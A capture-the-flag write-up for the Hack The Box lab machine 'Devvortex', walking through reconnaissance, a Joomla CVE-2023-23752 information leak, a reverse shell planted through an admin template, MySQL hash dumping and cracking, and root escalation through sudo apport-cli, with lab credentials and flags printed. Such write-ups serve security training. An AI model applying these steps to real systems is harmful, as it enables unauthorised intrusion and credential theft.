




# Devvortex

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Linux
- **Points:** 20

## Solution

First, we will discover open services:

```sh
$ nmap -A -T4 10.10.11.242
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 11:19 CET
Nmap scan report for 10.10.11.242
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.28 seconds
```

Next, let's add `devvortex.htb` to `/etc/hosts`:

```sh
$ echo "10.10.11.242 devvortex.htb" | sudo tee -a /etc/hosts
```

So now we can open it in browser:


Let's try to find subdomains:

```sh
$ gobuster vhost -u devvortex.htb -w dictionaries/subdomains-top1million-20000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://devvortex.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        dictionaries/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.devvortex.htb Status: 200 [Size: 23221]
```

Let's add it also to `/etc/hosts`:

```sh
$ echo "10.10.11.242 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

And it has `robots.txt`:

```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Let's see `/administrator`:



We can find [CVE-2023-23752: Joomla Authentication Bypass Vulnerability](https://www.pingsafe.com/blog/cve-2023-23752-joomla-authentication-bypass-vulnerability/). And the `python` script [here](https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT). Let's execute it:

```sh
$ python3 CVE-2023-23752.py -u http://dev.devvortex.htb
┏┓┓┏┏┓  ┏┓┏┓┏┓┏┓  ┏┓┏┓━┓┏━┏┓
┃ ┃┃┣ ━━┏┛┃┫┏┛ ┫━━┏┛ ┫ ┃┗┓┏┛
┗┛┗┛┗┛  ┗━┗┛┗━┗┛  ┗━┗┛ ╹┗┛┗━
Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Checking if target is vulnerable
[+] Target is vulnerable
[*] Launching exploit against: http://dev.devvortex.htb
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for usernames at path: 
/api/index.php/v1/users?public=true
[+] Target is vulnerable for usernames
[+] Gathering username(s) for: http://dev.devvortex.htb
[+] Username: lewis
[+] Username: logan
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for passwords at path: 
/api/index.php/v1/config/application?public=true
[+] Target is vulnerable for passwords
[+] Gathering password(s) for: http://dev.devvortex.htb
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[+] Password: P4ntherg0t1n5r3c0n##
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
```

We can try to login with `lewis:P4ntherg0t1n5r3c0n##`:



And we are in! Now we can navigate to `System`->`Templates`->`Administrator Templates`->`index.php` and modify the file to get the reverse shell:



Set the netcat listener:

```sh
$ nc -l 9001
```

And navigate to `http://dev.devvortex.htb/administrator/templates/atum/index.php`:

```sh
$ nc -l 9001
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$
```

And we have the reverse shell! Let's see the users:

```sh
$ cat /etc/passwd
...
logan:x:1000:1000:,,,:/home/logan:/bin/bash
...
```

We need somehow switch to logan. We know, that `lewis` credentials were initially for MySQL, we can try to connect to MySQL and see other users in the table:

```sh
mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4809
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use joomla;
use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)
mysql> select * from sd4fg_users;
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-03-05 11:07:35 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.01 sec)
```

We can use [hashes.com](https://hashes.com/en/decrypt/hash) to decrypt `logan's` password:



So the credentials are `logan:tequieromucho`. Let's try to login with ssh:

```sh
$ ssh logan@10.10.11.242
logan@10.10.11.242's password: tequieromucho
...
logan@devvortex:
```

And we are in as logan! Here is the `user` flag:

```sh
logan@devvortex:~$ cat user.txt
c56d03cfa7a131d574e7f9aeffaeb9ad
```

Now we need to excalate our priveleges to `root` user:

```sh
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

`logan` can execute `/usr/bin/apport-cli` as root. We can find [this](https://github.com/diego-tella/CVE-2023-1326-PoC) `apport-cli` vulnerability. For this, we will create our own crash report and open it using `vim`:

```sh
logan@devvortex:~$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... 

..dpkg-query: no packages found matching xorg
.............

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
```

And then by typing `!/bin/bash` in `vim` we can gain `root`priveleges:

```sh
root@devvortex:/home/logan# cat /root/root.txt
a4f5c4ae590559129e6c421f7ac44189
```

## Final Flags

> `user`: c56d03cfa7a131d574e7f9aeffaeb9ad
> `root`: a4f5c4ae590559129e6c421f7ac44189

*Created by [bu19akov](https://github.com/bu19akov)*